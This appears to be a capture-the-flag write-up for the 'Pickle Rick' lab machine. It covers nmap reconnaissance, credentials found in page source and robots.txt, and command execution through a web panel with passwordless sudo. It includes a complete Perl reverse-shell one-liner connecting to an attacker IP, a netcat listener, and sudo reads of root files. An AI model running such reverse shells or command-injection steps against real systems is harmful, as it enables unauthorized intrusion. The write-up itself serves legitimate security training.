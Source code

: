 # PICKLE RICK

## IP = `10.10.228.71`

Firstly I run nmap:
```
┌──(kali㉿kali)-[~]
└─$ sudo nmap -Pn -A -T4 10.10.160.5   

Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 bf:0b:f0:00:29:36:63:63:dd:4d:4c:13:39:89:a0:a1 (RSA)
|   256 54:6e:e9:4f:24:da:9c:ff:7c:a4:a1:6c:91:cc:d1:8b (ECDSA)
|_  256 00:92:31:83:2f:51:67:99:42:49:56:83:f7:68:77:8d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   304.15 ms 10.2.0.1
2   ... 3
4   352.47 ms 10.10.160.5

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.57 seconds
```

On port 80 there is a website and without any buttons so I check webpage source and at the bottom see:
```
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Also in source, I noticed a folder /assets with many files inside:
```
Index of /assets
[ICO]	Name	Last modified	Size	Description
[PARENTDIR]	Parent Directory	 	- 	 
[TXT]	bootstrap.min.css	2019-02-10 16:37 	119K	 
[ ]	bootstrap.min.js	2019-02-10 16:37 	37K	 
[IMG]	fail.gif	2019-02-10 16:37 	49K	 
[ ]	jquery.min.js	2019-02-10 16:37 	85K	 
[IMG]	picklerick.gif	2019-02-10 16:37 	222K	 
[IMG]	portal.jpg	2019-02-10 16:37 	50K	 
[IMG]	rickandmorty.jpeg	2019-02-10 16:37 	488K	 
Apache/2.4.18 (Ubuntu) Server at 10.10.228.71 Port 80
```
I checked if any of these .jpg files have a .php alternative and bingo, there is `/portal.php` with login / password field to type in.

Another basic thing worth doing is to always check /robots.txt
Apparently, I find there a long word which looks like a password:
`Wubbalubbadubdub`

I type two of these in `/portal.php` and aget access to a panel, with some options and window to type. 
My first guess it to try `ls` and among one of results there is `Sup3rS3cretPickl3Ingred.txt`
so I go to `http://10.10.228.71/Sup3rS3cretPickl3Ingred.txt` and get a first ingredient.

I also noticed that some of commands are blocked and also it is impossible to access sections while clicking on buttons on the right. After some time of clicking, I tried to search `*txt` files using `grep` but nothing worked. I thought about typing `grep -R ""` which turned out to ba good move as website crashed and I got all paths and it's source visible.

There is a list of blocked commands in source, but I checked if our user has sudo by `sudo -l`:
```
Matching Defaults entries for www-data on ip-10-10-228-71.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-228-71.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
```
and seems like we can execute commands with sudo rights.

One interesting thing is that we cannot go to another directory or view other files. So I tried to view all files on a server and it worked out with `sudo ls ../../../*`

In order to browse machine in easier way, I typed:
```
perl -e 'use Socket;$i="10.2.46.111";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

and ran `sudo nc -lvnp 4444` in the same time to get shell. 
Of course right after I typed `python3 -c 'import pty;pty.spawn("/bin/bash")'` to get interactive shell


So now once again `sudo ls ../../../*` to get list of all files. After some searching, I find a second flag in /home/rick/second inngredient with

`sudo cat /home/rick/"second ingredients"`

and third flag in /root:

`sudo cat /root/3rd.txt`

Finished.
